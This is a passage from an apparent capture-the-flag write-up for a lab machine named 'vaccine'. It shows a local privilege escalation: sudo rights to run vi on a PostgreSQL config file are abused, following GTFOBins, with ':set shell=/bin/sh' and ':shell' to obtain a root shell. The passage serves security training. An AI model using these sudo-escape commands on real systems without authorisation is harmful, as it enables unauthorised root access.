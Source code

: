 ```
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
As we have permissions to run `vi` we check [GTFBins](https://gtfobins.github.io/gtfobins/vi/) to see if we can use this to get a root terminal.
There are 2 ways of using `vi` to gain privileges so we try both of them, `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf -c ':!/bin/sh' /dev/null`
```
[sudo] password for postgres: 
Sorry, user postgres is not allowed to execute '/bin/vi /etc/postgresql/11/main/pg_hba.conf -c :!/bin/sh' as root on vaccine.
```
The first one didn't work but we still try the second one `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`
Using vi commands:
```
:set shell=/bin/sh
:shell
```

Finally we have a root terminal, the flag is in `/root/root.txt`